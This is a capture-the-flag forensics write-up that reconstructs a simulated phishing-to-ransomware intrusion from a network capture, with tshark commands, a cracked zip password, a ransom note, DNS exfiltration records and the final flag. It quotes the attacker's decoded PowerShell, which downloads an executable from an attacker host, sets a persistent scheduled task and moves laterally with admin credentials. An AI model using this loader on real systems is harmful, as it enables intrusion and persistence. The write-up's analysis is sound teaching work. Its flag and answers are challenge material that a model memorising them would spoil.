


# Forensics - Alice In The Ransom Land

<p align="justify">This challenge was a Forensics challenge in which following informations must have been retreived based on a single Pcapng network capture file realized during compromission of a network : </p>

* The email address used by the attacker 
* The email address targeted within the company 
* The MD5 hash of the first malware
* The domain name contacted to download a script
* The password used to connect to the server
* The name of the scheduled task that was executed
* The domain name contacted by the script to download the second malware
* The MD5 hash of the malware present on the server
* The domain name used for data exfiltration
* The name of the ransomware gang 
* The cryptocurrency wallet address used by the attackers
* The final flag contained in a file exfiltrated by the malware

### Network overview

<p align="justify">To invistigate the network capture file, I firstly used the tool NetworkMiner, which requires pcap file instead of pcapng. So, the first thing to do is to convert pcapng file to pcap using tshark.</p>
          
````bash
tshark -r chall.pcapng -F pcap -w chall.pcap
````

<p align="justify">Network miner provides a great overview of what happened during network capture. It unveils hosts, ip addresses, OS, files exchanged, DNS entries and much more helpful information to understand the key steps of a compromission (networkly speaking). Based on the different hosts identified, it seems the compromised network is on the range 192.168.50.0/24 and the attacker is very likely to have an address on the range 192.168.1.0/24 as shown on the snippets below: </p>

<p aling="center"></p>
<p aling="center"></p>

<p align="justify">Besided, given the details about tagert network's hosts (192.168.50.0/24), it seems there are only two hosts: one windows server (perhaps a domain controller, address 192.168.50.200) and one desktop machine (192.168.50.17).</p>

<p aling="center"></p>
<p aling="center"></p>

<p align="justify">And given the details of the hosts on the range 192.168.1.0/24, the attacker is very likely to be the 192.168.1.132 host with the domain name susqouh.ru . As a matter of fact, a python server is opened and could be used by the attacker to download malware and scripts oncee a host is compromised, and the several amount of WSMAN packet indicates that the attacker probably used WSMAN to pivot from compromised desktop to Windows Server.</p>

<div align="center">
          
| Asset/Role | IP address       | Name|
|--------------------|-------------------|--------------------|
| Attacker Hosts    | 192.168.1.132 - 111| Domain name: _susqouh.ru_  |
| Server Host    | 192.168.50.200 | _Windows server_ |
| Desktop Host  | 192.168.50.17  | Hostname: _DESKTOP-VEPKFA0, DESKTOP-VEPKFA0.local_ |

</div>

### TCP streams analysis : Victim phishing 
<p align="justify">Now let's analyze tcp streams to understand how the network was compromised. Looking a the very first TCP streams, it seems that a phishing email was firstly received by the user logged in the dekstop machine. Indeed, the domain name of the sender is alices.corp instead of alice.corp, which is a classic case of typosquatting on phishing attack. The content of the mail indicates that a zip archive was attached, which is likley to contains the first malware used to get a remote access to the victim's machine.</p>

````bash
tshark -r chall.pcap -Y "tcp.stream eq 2"

# 468 192.168.57.17  10.963512 192.168.57.2 TCP 66 54731 → 8025 [SYN] Seq=0 Win=65535 Len=0 MSS=1460 WS=256 SACK_PERM=1
# 469 192.168.57.2  10.963856 192.168.57.17 TCP 66 8025 → 54731 [SYN, ACK] Seq=0 Ack=1 Win=64240 Len=0 MSS=1460 SACK_PERM=1 WS=128
# 470 192.168.57.17  10.964195 192.168.57.2 TCP 60 54731 → 8025 [ACK] Seq=1 Ack=1 Win=65280 Len=0
# 474 192.168.57.17  10.991784 192.168.57.2 HTTP 616 GET /api/v1/messages/h3hvlhkzBteXTAmbr4qz4Pwj0NvpLr4Nq_e2PObs7Vg=@Alice.corp/download HTTP/1.1 
# 475 192.168.57.2  10.992096 192.168.57.17 TCP 60 8025 → 54731 [ACK] Seq=1 Ack=563 Win=64128 Len=0
# 476 192.168.57.2  10.994156 192.168.57.17 HTTP/IMF 1281 subject: Internal Helpdesk Tool =?utf-8?b?4oCT?= Alice Corp, from: it-support@alices.corp,  (text/plain)
# 477 192.168.57.17  11.034661 192.168.57.2 TCP 60 54731 → 8025 [ACK] Seq=563 Ack=1228 Win=64256 Len=0
# 513 192.168.57.2  26.137956 192.168.57.17 TCP 60 [TCP Keep-Alive] 8025 → 54731 [ACK] Seq=1227 Ack=563 Win=64128 Len=0
#  597 192.168.57.2  41.249170 192.168.57.17 TCP 60 [TCP Keep-Alive] 8025 → 54731 [ACK] Seq=1227 Ack=563 Win=64128 Len=0
#  629 192.168.57.2  56.361004 192.168.57.17 TCP 60 [TCP Keep-Alive] 8025 → 54731 [ACK] Seq=1227 Ack=563 Win=64128 Len=0
````

<p align="justify">Below is the content of the mail retreived which gives the mail address usded by the attacker (it-support@alices.corp) and the mail address of the victim (natacha.routi@alice.corp): </p>

````bash
tshark -r chall.pcap -qz follow,tcp,ascii,2
````
````text
To: natacha.routi@alice.corp
Content-Transfer-Encoding: quoted-printable
Received: from mail.alice.corp by Alice.corp (Alice-Corp)
          id h3hvlhkzBteXTAmbr4qz4Pwj0NvpLr4Nq_e2PObs7Vg=@Alice.corp; Sun, 22 Jun 2025 09:27:47 +0200
Subject: Internal Helpdesk Tool =?utf-8?b?4oCT?= Alice Corp
Content-Type: text/plain; charset="utf-8"
MIME-Version: 1.0
Message-ID: h3hvlhkzBteXTAmbr4qz4Pwj0NvpLr4Nq_e2PObs7Vg=@Alice.corp
Return-Path: <it-support@alices.corp>
From: it-support@alices.corp

Hello,

The IT department has published a new internal version of the Helpdesk tool. 

Please download it using the link below:

Download link: https://www.dropbox.com/scl/fi/n13dckvawgi8rf50qr6ij/helpdesk.zip?rlkey=dlnvxltgup1wnlesbuiey2fwe&e=2&st=98676emp&dl=1

Note: The archive is password protected. 
It is the common password used internally at Alice Corp to secure ZIP files.

Do not share this file outside the internal network.

Best regards, 
IT Support
Alice Corp
````

### Breaking archive password 

<p align="justify">Following the onedrive link attached to the email, the archive indeed contains a malware name "desktop.exe", but as mentionned this archive is password-protected. The password isn't provided in the email, but is said to be a common password used within the company. It means the password is likely to be weak and breakable using john.</p>

````bash
zip2john helpdesk.zip > hash
#$pkzip2$2*1*1*0*8*24*4c55*3bbb*0e2bd1fdaacaccb5e7f77397c54f02b2ad0af80984d4cc327a924fc86c1003091266b602*2*0*cd*178*d7b35ed0*0*2e*8*cd*d7b3*3d14*2866e7dce3807d99f0ff13582c62fd91def9b7af60c30116d9bbdf2f2c2eddea134e1d43f3cc589052df77309b0592478282665b1fb3a0c912c0d36abbc4922e3126d5e2cead183266350e6f174d37b4bebf797f60cf969bf708356f852b889d00d2c42afd39826780d0396e4dd31e4a5d27b22b3bb6b36d4135a8e32a4b4f4b17e42c1ce0995357a6a0643e89255d1e27d061a9d362eaa780119021ec7ae938bddfd12fb016b32f00753bde93d76bf7681cb2cc045387f1d27c973aa4778dc9174ada66164dcbb09d4ea74d49*$/pkzip2$
john Hash
#!!Miley24$$
````

<p aling="center"></p>

<p align="justify">Once the archive opened, the md5sum of the first malware can be computed:</p>

````bash
md5sum helpdesk.exe
#8d8b36683ed095a7eebe4e8c70141bfc
````

### TCP stream analysis : Victim malware loader download

<p align="justify">So far the logic of the compromission is:</p>

- The victim (192.168.50.17) opened a phishing mail and downloaded the archive attached containing the malware
- The victim executed the malware 

<p align="justify">Now let's dig into TCP streams again to understand what tasks the malware performed on the victim host (no reverse engineering needed). Looking at the stream number 33, it looks like the malware executed by the victim contacted a remote host (controlled by attacker, to download a powershell script wich load a malware):</p>


````bash
tshark -r chall.pcap -qz follow,tcp,ascii,33
````
 
````text
GET /deploy-malware.ps1 HTTP/1.1
accept: */*
host: ykfqaqa.ru:8000

HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.12.3
Date: Sun, 22 Jun 2025 07:50:56 GMT
Content-type: application/octet-stream
Content-Length: 6395
Last-Modified: Sun, 22 Jun 2025 07:36:39 GMT

[***] some powershell lines encoded
````

<p align="justify">The powershell script (deploy_malware.ps1) contains an encoded powershell script; which once decoded looks like:</p>

````powershell
$User = "alice-corp\administrateur"
$PasswordPlain = "admin123sY*-+"
$Pass = ConvertTo-SecureString $PasswordPlain -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential($User, $Pass)

$RemoteHost = "192.168.57.200"

$RemoteCommand = {
    $exeUrl = "http://susqoUh.ru:8000/susqoUh.exe"
    $exePath = "C:\Windows\Temp\helpdesk.exe"
    $taskName = "DontTouchMe"

    try {
        Invoke-WebRequest -Uri $exeUrl -OutFile $exePath -UseBasicParsing

        $action = New-ScheduledTaskAction -Execute $exePath
        $trigger = New-ScheduledTaskTrigger -AtStartup
        $settings = New-ScheduledTaskSettingsSet -StartWhenAvailable -AllowStartIfOnBatteries -DontStopIfGoingOnBatteries

        Register-ScheduledTask -TaskName $taskName `
            -Action $action `
            -Trigger $trigger `
            -User "alice-corp\administrateur" `
            -Password "admin123sY*-+" `
            -Settings $settings `
            -RunLevel Highest `
            -Force

        Start-ScheduledTask -TaskName $taskName

    } catch {
        Write-Host ""
    }
}

try {
    Invoke-Command -ComputerName $RemoteHost -Credential $Cred -ScriptBlock $RemoteCommand -ErrorAction Stop
} catch {
    Write-Host ""
}
````

<p align="justify">This script uses administrator credentials to connect to the server (192.168.50.200) and download a second malware on the server http://susqoUh.ru:8000/. Then a scheduled task is registered for persistence. As a matter of fact, this assumes that the attacker found a way to dump admin credentials on victim's desktop machine.</p>

### TCP stream analysis: Sever malware download 
<p align="justify">So far the logic of the compromission is:</p>

- The victim (192.168.50.17) opened a phishing mail and downloaded the archive attached containing the malware
- The victim executed the malware 
- The malware executed by the victim logged onto the server (192.168.50.200) using administrator credentials, downloaded a second malware and registered a scheduled task

<p align="justify">The TCP stream 37 shows the malware file susqoUh.exe download :</p>

````bash
tshark -r chall.pcap -Y "tcp.stream eq 37"

# 2498 192.168.57.200 140.306959 192.168.1.132 TCP 66 63008 → 8000 [SYN, ECN, CWR] Seq=0 Win=64240 Len=0 MSS=1460 WS=256 SACK_PERM=1
# 2499 192.168.1.132 140.307703 192.168.57.200 TCP 60 8000 → 63008 [SYN, ACK] Seq=0 Ack=1 Win=32768 Len=0 MSS=1460
# 2500 192.168.57.200 140.307704 192.168.1.132 TCP 60 63008 → 8000 [ACK] Seq=1 Ack=1 Win=64240 Len=0
# 2501 192.168.57.200 140.309456 192.168.1.132 HTTP 224 GET /susqoUh.exe HTTP/1.1 
# 2502 192.168.57.200 140.375459 192.168.1.132 TCP 224 [TCP Retransmission] 63008 → 8000 [PSH, ACK] Seq=1 Ack=1 Win=64240 Len=170
# 2503 192.168.1.132 140.375459 192.168.57.200 TCP 60 8000 → 63008 [ACK] Seq=1 Ack=171 Win=32598 Len=0
# 2504 192.168.1.132 140.442244 192.168.57.200 TCP 259 HTTP/1.0 200 OK  [TCP segment of a reassembled PDU]
````

````bash
tshark -r chall.pcap -qz follow,tcp,ascii,37 | head -n 100
````

````text
GET /susqoUh.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; fr-FR) WindowsPowerShell/5.1.20348.558
Host: susqouh.ru:8000
Connection: Keep-Alive

HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.11.9
Date: Sun, 22 Jun 2025 07:50:58 GMT
Content-type: application/x-msdownload
Content-Length: 2334208
Last-Modified: Sun, 22 Jun 2025 07:44:38 GMT

[***] Some bytes
````

<p aling="justify">Network Miner automatically extracts file shared in the capture and computes hashes:</p>

<p aling="center"></p>

<p align="justify">Which gives the md5sum of the second malware:</p>

````text
5d820e7bbb4e4bc266629cadfa474365
````

<p aling="justofy">Keeping in mind the scenario and the title of the challenge, the second malware must be the one which performs encryption and prints ransomware message. Using srings and grep on the malware, it's possible to retreive the wallet address of ransom and the name of the ransomware group responsible of the compromission:</p>

````bash
strings susqoUH.exe | grep -C 20 'ransomware'
````

````text
message.txt---[ SPHINXLOCK RANSOMWARE GROUP ]---
Your network has been compromised and all critical files have been encrypted.
This includes documents, databases, backups, and internal project files.
We are SPHINXLOCK 
 specializing in corporate data extraction and ransomware-as-a-service.
Do NOT attempt to recover your files using third-party tools. Doing so will permanently corrupt them.
>>> How to restore your files:
1. Purchase 5000 USD in Monero (XMR) cryptocurrency.
2. Send the exact amount to the following wallet address:
   84N2hXaVqgS5DzA1FpkGuD98Ex2cVXH6k8RwZ7PmUz1oBY9X6GZYMT3WJYkfY9AdELNH2tsBrxJZcdkLkJxYH5RZ73XKbPq
3. After payment, email us at:
   sphinxhelpdesk@sphinxlock.ru
   Include in your message:
   - Your unique victim ID: #SPX-3041B
   - Proof of payment
   - 1 encrypted files (max 1MB) for free decryption test
>>> WARNING:
If you fail to pay within 72 hours, we will:
- Start posting confidential files.
- Sell sensitive corporate data.
This is your only opportunity to prevent a total data breach.
We are watching.
 SPHINXLOCK
````

### DNS exfiltration & Encrypted extracted file decryption 
<p align="justify">The final step of the compromission is the data efiltration. Looking at records of dns entries, data exfiltrated was very likely extracted over DNS. The extraction was made using yinxuqab.ru domain with respect to following format</p>
<p align="center"> data_type - ID - hex_data . Domain</p>

<p aling="center"></p>
<p aling="justify">It seems there is only one file encrypted using symmetric cipher and extracted using 5 DNS records for the message. This key used is exfiltrated as well (2 records). Using regex with tshark it's possible to extract hex data and perform decryption </p>

````bash
tshark -r chall.pcap -Y "dns && ip.src == 192.168.57.200 && dns.qry.name" -T fields -e dns.qry.name | uniq
````

````text
file0-0-d2373cdd6d999679668b0d4587abbeb325bda034.yinxuqab.ru
file0-1-3841f3cdb1e4ec8f7b597f75ddde462a9bbefb82.yinxuqab.ru
file0-2-8318f3bc16af0f52dce3ffbfa34670557bf89ee9.yinxuqab.ru
file0-3-8ce45da82eb45abd320c4b0a143e2569a6bd8a8f.yinxuqab.ru
file0-4-8d7c0e52a76ff4b4505e82df2c204632.yinxuqab.ru
file0-complete.yinxuqab.ru
id-0-235350582d3330343142.yinxuqab.ru
id-complete.yinxuqab.ru
key-0-3de090e7059fb1d7f77dec50078405c855e3f1a4.yinxuqab.ru
key-1-6589e72db2602c7d7e8403b8.yinxuqab.ru
key-complete.yinxuqab.ru
````

<p aling="justify">It seems there is only one file encrypted using symmetric cipher and extracted using 4 DNS records. This key used is exfiltrated as well. Using regex with tshark it's possible to extract hex data and perform decryption.</p>

````bash
tshark -r chall.pcap -Y "dns && ip.src == 192.168.57.200 && dns.qry.name" -T fields -e dns.qry.name | uniq | grep file | awk -F- '{print $3}' | awk -F. '{print $1}' | tr -d '\n'
tshark -r chall.pcap -Y "dns && ip.src == 192.168.57.200 && dns.qry.name" -T fields -e dns.qry.name | uniq | grep key | awk -F- '{print $3}' | awk -F. '{print $1}' | tr -d '\n'

# enc hex : d2373cdd6d999679668b0d4587abbeb325bda0343841f3cdb1e4ec8f7b597f75ddde462a9bbefb828318f3bc16af0f52dce3ffbfa34670557bf89ee98ce45da82eb45abd320c4b0a143e2569a6bd8a8f8d7c0e52a76ff4b4505e82df2c204632
# key hex : 3de090e7059fb1d7f77dec50078405c855e3f1a46589e72db2602c7d7e8403b8
````

<p aling="justify">After a few tries, it looks like the encryption used is AES-GCM. The python script gcm_nonce12_dec.py performs decryption and finally outputs:</p>

````bash
Congratulation this is your final part : DNS_TUNNEL_SUCCESS_C0MPLETE
````

### Final FLAG
The final can be computed using following elements : 

````bash
echo -n "it-support@alices.corp:natacha.routi@alice.corp:8d8b36683ed095a7eebe4e8c70141bfc:ykfqaqa.ru:admin123sY*-+:DontTouchMe:susqoUh.ru:5d820e7bbb4e4bc266629cadfa474365:yinxuqab.ru:sphinxlock:84N2hXaVqgS5DzA1FpkGuD98Ex2cVXH6k8RwZ7PmUz1oBY9X6GZYMT3WJYkfY9AdELNH2tsBrxJZcdkLkJxYH5RZ73XKbPq:DNS_TUNNEL_SUCCESS_C0MPLETE" | sha256sum

````
FLAG: _ECW{f68ba371b5fc66c802207b9bedd0838af9d6d7a46085765425d89f80f558b3f9}_ , thanks _Insomnia (ESNA)_ for this challenge !
